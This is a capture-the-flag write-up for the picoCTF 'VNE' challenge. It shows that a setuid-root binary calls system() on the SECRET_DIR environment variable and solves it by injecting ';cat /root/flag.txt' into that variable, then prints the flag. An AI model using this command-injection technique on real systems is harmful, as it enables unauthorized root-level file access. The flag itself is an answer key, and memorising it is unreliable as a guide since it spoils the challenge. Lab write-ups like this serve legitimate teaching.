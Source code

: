 # VNE
> We've got a binary that can list directories as root, try it out !!

> Additional details will be available after launching your challenge instance.

## About the Challenge
We were given an access to SSH server and then there is a file called `bin` and if we run the file


[Image extracted text: ctf-player@pico-challs 1s
~la
total 24
drwxr
xr-X 1
ctf-player ctf-player
20 Mar 28 15.40
drwxr
Xr-X 1
root
root
24 Mar 16 01:59
drwx
2 ctf-player
ctf-player
34 Mar 28 15.40
cache
rW-r--r-=
root
root
67
Mar 16 01:59
profile
rwsr-Xr-X 1
root
root
18752 Mar 16 01:59
bin
ctf-player@pico-chall$
Ibin
Error
SECRET_DIR environment
variable is
not set]


## How to Solve?
If we set an environment variables called `SECRET_DIR` and the value is `/root` because we need to know what is inside `/root` directory. You can use this command

```shell
export SECRET_DIR=/root
```

Here is the output


[Image extracted text: ctf-player@pico-chall$
export SECRET_DIR-/root
ctf-player@pico-challs
Ibin
Listing the content
of
Iroot
root:
flag-
txt]


As you can see there is a file called `flag.txt` and we need to read the content of the file to obtain the flag. If we check the string of the `bin` file using this command

```shell
strings bin
```

Here is the output


[Image extracted text: SECRET_DIR
Error
SECRET_DIR environment variable is
not
set
Listing
the
content
of
root:
Error
system() call
returned
non-zero
value:
*3$"
ZPLR]


As you can see the file using `system()` function to listing a directory, so the idea here, we need to do Command injection by adding `; command` in the `SECRET_DIR` environment variable values. So for example

```shell
export SECRET_DIR="/root;cat /root/flag.txt"
```

And then rerun the program to obtain the flag


[Image extracted text: ctf-player@pico-chall$
Ibin
Listing the
content of
Iroot;cat /root/flag-txt
root:
flag-txt
picoCTF{Power_tO_man!pul4t3
3nv_cdebza4d}ctf-player@pico]


```
picoCTF{Power_t0_man!pul4t3_3nv_cdeb2a4d}
```